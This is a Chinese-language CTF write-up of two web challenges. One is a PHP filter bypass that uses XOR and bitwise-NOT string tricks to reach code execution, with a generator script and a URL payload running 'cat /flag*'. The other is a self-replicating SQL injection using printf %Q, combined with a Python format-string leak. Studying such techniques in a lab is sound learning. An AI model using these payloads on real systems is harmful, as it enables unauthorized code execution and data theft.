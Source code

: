 # (#°д°)
## 思路

總共有 2 個 rule, 通過後把 string 當作是 php code 跑
1. 長度 < 0x20
2. 不能輸入 digit or letter

此題的核心概念, 是利用 php string 也可以做 operation 的特性, 達到**不直接 call function name 也可以透過其他 string 的 operation 來 call function**. 通常能用來大更動 string 的 operator 為 `'^'` 以及 `'~'`, 因此朝這兩個運算符前進.

第一時間想到用 XOR 來造出如 `eval($_GET[a])` 這種 payload, 而因為沒辦法輸入英文, 所以只能想辦法造出某 `$var = 'eval'`, 再透過 `($var)($_GET[a])` 跑 `eval`, 發現最後 payload 太長. 後來是想說用 `$GET[a]($GET[b])`, 這樣有許多重複的 string, 說不定可以縮短長度, 結果最後最後還是 36, 以下是腳本.

P.S. 值得注意的是, php 的特殊字元可以用來當變數的只剩下 `_`, 所以 payload 中若需要 assign variable, 都會用 `$_`, `$__` 等等.

```python
import string

w = '!"#$%&\'()*+,-./:;<=>?@[\]^_{|}~'

def get_pair(t):
    for i in w:
        for j in w:
            if ord(t) == ord(i)^ord(j):
                return (i, j)
    return (NULL, NULL)

def get_payload(target):
    all_a = ''
    all_b = ''

    for i in target:
        a, b = get_pair(i)
        all_a += a
        all_b += b

    return (all_a, all_b)

payload = ''
##### target = $_GET[_]($_GET[]);
#a, b = get_payload('_GET')
#payload += f"$_='{a}'^'{b}';" # $_ = '_GET'
#payload += "${$_}[_]"; # $_GET[_]
#payload += "(${$_}[])" # ($_GET[])
# $_='!:;('^'~}~|';${$_}[_](${$_}[])
# 36

a, b = get_payload('_GET')
payload += f"$_='{a}'^'{b}';" # $_ = '_GET'

print(payload)
print(len(payload))
```

最後看了一眼 hint `非 ascii 或 Non-printable`... 突然想到可以用 not 來做, 而且超簡單, 立刻微調上面的 code, 產生 `(system)(cat /flag*)` 的 not opertor payload, 如下
```
https://php.splitline.tw/?(%23%C2%B0%D0%B4%C2%B0)=(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%93%9E%98%D5);
```

即可拿到 flag.

# VISUAL BASIC 2077
## 思路
我們的目標有兩個：<br>
第一個是透過 sqli 滿足 `res['username'] == username and res['password'] == password`之外, 還能任意控制其 value.<br>
第二個是透過 format string 的特性, 將 flag leak 出來.

關於第一個目標，首先可以看一下 hint, 可以大概知道, hint 是要我們找到一個可以將自己 inject 自己的 sql 語句.
```
_='_=%r;return (_%%_)'
```
於是開始往**怎樣的 sql function** 能產生出自己, 或是產生出一樣的東西, 而後發現有 `REPLACE(string, pattern, replace)` 以及 `printf(format, string)` 可以用, 兩者都符合我們的需求, 於是開始造 payload.

## 目標 2
目標 2 是透過控制 username 能在 format string 的 render 後, 取得一些資料, 而可以觀察到 `XXXX.format(flag=flag)` 後面的 flag 為可控的變數, 若我們仔細看一下程式碼, 能看到 flag 代表的是一個 `Flag class`, class member 有 flag, 而正常會透過 `print(flag)` 等等直接以字串的方式來存取, 不過如果我們用 `{flag.flag}`, 就能直接存取到真正的 flag, 而不需透過 session 的認證了.

所以在解目標 1 前, 已經知道 username 必須控成 `{flag.flag}`, 因此在構造目標 1 的 payload 時, 會將 inject code 插在 password 那.

## 目標 1
其實攻擊方式很簡單, 只要嘗試生出一樣的語句就好. 可以用常識判斷, 正常的 input 的 username/password 跟 select 出來的 username/password 比長度, 一定是 select 出來會比較小, 因為還要使用如 `union` 等等 operator 來拿到自己能夠控制的 username/password. 所以我們要想辦法用上面兩種 function 有著的 **可重複 且 能用更少的 string 產生更多的 string** 的特點.

首先 `REPLACE`, 在不斷嘗試後, 最後永遠都只差幾個 ", 以下那樣是極限了 QQ...
```
query:     ' union select 'A',REPLACE('AA)','A',"' union select 'A',REPLACE('AA)','A',")
password:  ' union select 'A',REPLACE('AA)','A',' union select 'A',REPLACE('AA)','A',)
```

後來用 `printf`, 配合 `%Q` format, 可以幫我們加上額外的 `'` 幫助我們 match input string
```
query:     ' union SELECT "{flag.flag}", printf(q,q) from (SELECT ''' union SELECT "{flag.flag}", printf(q,q) from (SELECT %Q as q)' as q)
password:  ' union SELECT "{flag.flag}", printf(q,q) from (SELECT ''' union SELECT "{flag.flag}", printf(q,q) from (SELECT %Q as q)' as q)
```

其中 `print(q,q)` 是希望 format string 能達到如 `_%_` 的效果, 自己 include 自己. 而透過設計 input query 讓 `' union ... from ... as q` 重複出現, 最後透過 `%Q` 在 render 自己.

解題核心：最主要還是先找到有哪些可以用, 然後一個一個試. 試的方法可以先大致 try 出一個 query, 再利用 debug 的方式慢慢修, 如果最後怎麼找都會少東西, 就換下一個方向.

總結 payload:
```
query:     select username, password from users where username='{flag.flag}' ans password='' union SELECT "{flag.flag}", printf(q,q) from (SELECT ''' union SELECT "{flag.flag}", printf(q,q) from (SELECT %Q as q)' as q)

username:  {flag.flag}
password:  ' union SELECT "{flag.flag}", printf(q,q) from (SELECT ''' union SELECT "{flag.flag}", printf(q,q) from (SELECT %Q as q)' as q)
```

另外, 在完題目後, 有找到 [quine](https://www.geeksforgeeks.org/quine-in-python/) 這個東東, 裡面的範例 code 跟助教的一模一樣

quine 即為: takes no input but outputs a copy of its own code, 也能複製自己. 透過 google 也能找到類似的題目, 所以似乎利用這個也能做到 copy own code.